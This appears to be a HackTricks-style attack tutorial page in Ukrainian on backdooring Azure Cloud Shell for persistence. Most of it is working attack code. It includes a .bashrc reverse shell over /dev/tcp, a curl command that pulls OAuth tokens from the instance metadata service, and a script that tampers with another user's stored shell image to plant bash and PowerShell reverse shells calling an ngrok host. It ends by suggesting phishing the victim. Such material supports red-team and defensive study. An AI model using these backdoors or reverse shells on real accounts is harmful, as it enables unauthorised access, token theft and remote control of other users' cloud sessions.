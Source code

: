 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell пропонує доступ до командного рядка для управління ресурсами Azure з постійним зберіганням та автоматичною аутентифікацією. Зловмисники можуть скористатися цим, розміщуючи бекдори в постійній домашній директорії:

* **Постійне Зберігання**: Домашня директорія Azure Cloud Shell монтується на файловому сховищі Azure і залишається незмінною навіть після завершення сеансу.
* **Скрипти Запуску**: Файли, такі як `.bashrc` або `config/PowerShell/Microsoft.PowerShell_profile.ps1`, виконуються автоматично на початку кожного сеансу, що дозволяє для постійного виконання при запуску хмарного терміналу.

Приклад бекдору в .bashrc:
```bash
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Ця задня дверцята може виконувати команди навіть через 5 хвилин після завершення роботи користувачем хмарної оболонки.

Додатково запитуйте службу метаданих Azure для отримання деталей екземпляра та токенів:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
### Cloud Shell Phishing

Якщо зловмисник знайде зображення інших користувачів у Storage Account, до якого він має доступ на запис і читання, він зможе завантажити зображення, **додати bash і PS бекдор у нього** та завантажити його назад до Storage Account, щоб наступного разу, коли користувач отримує доступ до оболонки, **команди будуть автоматично виконані**.

- **Завантажити, бекдор і завантажити зображення:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```
- **Потім, фішингом отримайте доступ до https://shell.azure.com/**


{{#include ../../../banners/hacktricks-training.md}}
